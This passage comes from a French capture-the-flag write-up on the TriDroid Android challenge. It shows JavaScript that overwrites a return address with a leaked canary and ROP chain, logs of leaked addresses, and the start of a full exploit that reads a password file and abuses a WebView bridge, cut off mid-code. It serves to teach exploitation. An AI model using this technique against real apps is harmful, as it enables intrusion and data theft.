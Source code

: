Pour déclencher la ROP chain, il suffit d'écraser l'adresse de retour de la fonction `modify_element` :

```javascript
// overwrite RIP, after canary + EBP
modify("41414141414141414141414141414141414141414141414141414141414141414141414141414141"+canary+"4242424242424242"+rop);
```

En testant le payload final localement on constate que le faux flag chiffré est bien écrit dans les logs :

```
08-03 21:10:12.950 11858 11858 I chromium: [INFO:CONSOLE(8)] "password : 80965b49-ba84-4340-ab52-26bce809c2a1", source:  (8)
08-03 21:10:13.017 11858 11858 I chromium: [INFO:CONSOLE(67)] "Base address : 785fd1066000", source:  (67)
08-03 21:10:13.031 11858 11858 I chromium: [INFO:CONSOLE(76)] "Canary : f39bbcd81de1a225", source:  (76)
08-03 21:10:13.031 11858 11858 I chromium: [INFO:CONSOLE(80)] "invokeJavaMethod address : 785fd1066fa0", source:  (80)
08-03 21:10:13.050 11858 11858 I chromium: [INFO:CONSOLE(86)] "Libc base address : 7862bccd2000", source:  (86)
08-03 21:10:13.129 11858 11858 I chromium: [INFO:CONSOLE(100)] "RBP : 785fce154c30", source:  (100)
08-03 21:10:13.193 11858 11858 I chromium: [INFO:CONSOLE(110)] "JNI_env : 7860e95135f0", source:  (110)
08-03 21:10:13.200 11858 11858 I chromium: [INFO:CONSOLE(111)] "this_ptr : 785fce154c54", source:  (111)
...
08-03 21:10:13.201 11858 11954 D TriDroid: Flag: 66McrCEanCiGETTs3N/lOw==
```

### Obtenir le vrai flag

L'exploit complet est donné ci-dessous :

```javascript
<span id="exp">
    const pwd = "/data/data/com.google.ctf.pwn.tridroid/files/password.txt";

    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "file://"+pwd, false); // false for synchronous request
    xmlHttp.send();
    password = xmlHttp.responseText;
    console.log("password : "+password);

    function push(data) {
        // interface bridge
        return bridge.manageStack(password, "push", data);
    }

    function pop() {
        // interface bridge
        return bridge.manageStack(password, "pop", '');
    }

    function top() {
        // interface bridge
        return bridge.manageStack(password, "top", '');
    }

    function modify(data) {
        // interface bridge
        return bridge.manageStack(password, "modify", data);
    }

    function unpack64(data) {
```